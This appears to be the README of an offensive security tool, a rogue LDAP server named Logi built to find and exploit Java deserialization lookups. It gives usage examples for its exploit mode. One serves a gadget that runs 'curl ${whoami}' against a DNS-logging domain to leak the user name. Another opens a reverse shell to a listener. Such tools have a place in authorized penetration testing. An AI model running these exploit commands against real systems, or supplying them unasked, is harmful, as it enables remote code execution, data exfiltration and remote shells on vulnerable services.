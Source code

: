 # ☕️LOGI
Logi is a ldap server focusing on ldap deserialize recon and exploit.


- [☕️LOGI](#️logi)
  - [✨Get started](#get-started)
  - [⚙️How it work](#️how-it-work)
  - [🚀Examples](#examples)
  - [🔮Image](#image)
  - [💻See also](#see-also)

## ✨Get started
Download logi from release.
Use `-h` to show help.
```
$ ./logi -h
Logi is a ldap server focusing on ldap deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
MODE CONFIG:
   -m, -mode int  1 for poc, 2 for probe, 3 for exploit
SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")
...
```

## ⚙️How it work
Logi hosts a ldap service, waiting for ldap lookup
- poc mode: reply a urldns gadget points to `domain` for deserialize verify
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## 🚀Examples
Run poc mode with dns domain `dnslog.me`.
You need to send a ldap lookup to logi.
```
./logi -m 1 -d dnslog.me
```
Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`.
You need to request many times to traverse the wordlist.
```
./logi -m 2 -d dnslog.me -w yso
```
Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`.
One class name per line.
```
./logi -m 2 -d dnslog.me -wp ./dict.txt
```
Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`
```
./logi -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.i'
```
Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`
```
./logi -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
## 🔮Image
![image](image/logi.png)
## 💻See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)

[Urldns](https://github.com/kezibei/Urldns)